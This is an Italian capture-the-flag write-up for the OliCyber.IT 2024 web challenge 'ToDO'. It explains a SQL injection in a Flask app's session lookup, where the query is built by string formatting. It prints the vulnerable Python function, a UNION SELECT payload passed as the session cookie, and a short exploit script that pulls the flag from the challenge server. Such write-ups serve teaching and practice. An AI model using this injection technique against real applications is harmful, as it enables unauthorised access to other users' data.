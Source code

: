 # OliCyber.IT 2024 - Selezione territoriale

## [web] ToDO (34 risoluzioni)

Volevo imparare Python e Flask, niente di meglio di una todo app, a quanto dice Reddit!

Sito: [http://todo.challs.olicyber.it](http://todo.challs.olicyber.it)

Autore: Aleandro Prudenzano <@drw0if>

## Soluzione

L'applicazione è composta da un web server, implementato con Flask in `app.py`, e un insieme di funzioni utili per interagire con il database sqlite, `db.py`. Analizzando il codice sorgente possiamo velocemente notare che tutte le query non sono eseguite utilizzando prepared statements, ma i parametri variabili sono formattati direttamente dentro le stringhe. Questo può portare a SQLinjection nel caso in cui i parametri di input non sono gestiti correttamente.

Questo accade infatti nella funzione `get_user_from_session`:

```python
    def get_user_from_session(self, session_id):
        cursor = self.get_cursor()

        cursor.execute(
            """SELECT users.id, users.username
            FROM users
            JOIN sessions ON users.id = sessions.user_id
            WHERE sessions.id = '%s';""" % (session_id,))

        users = cursor.fetchall()
        cursor.close()

        if len(users) == 1:
            return users[0]

        return None
```

Possiamo quindi effettuare una SQLinjection per alterare la query e farle ritornare i task appartenenti ad un altro utente, semplicemente usando il giusto payload, passato come cookie di sessione.

Un payload possibile è `' UNION SELECT id, username FROM users WHERE username='antonio' --`; con questo, la query ci ritornerà tutti i dati relativi all'utente `antonio`, che sappiamo essere quello contenente la flag fra le sue note.

## Exploit

```python
#!/usr/bin/env python3

import logging
import os
import requests
import re

# For HTTP connection
URL = os.environ.get("URL", "http://todo.challs.olicyber.it")
if URL.endswith("/"):
    URL = URL[:-1]


cookies = {
    "session": "' UNION SELECT id, username FROM users WHERE username='antonio' -- ",
}

r = requests.get(f"{URL}/todo", cookies=cookies)
flag = re.compile(r"flag\{.*\}").search(r.text)

if flag:
    print(flag.group())
else:
    print("Flag not found")
```
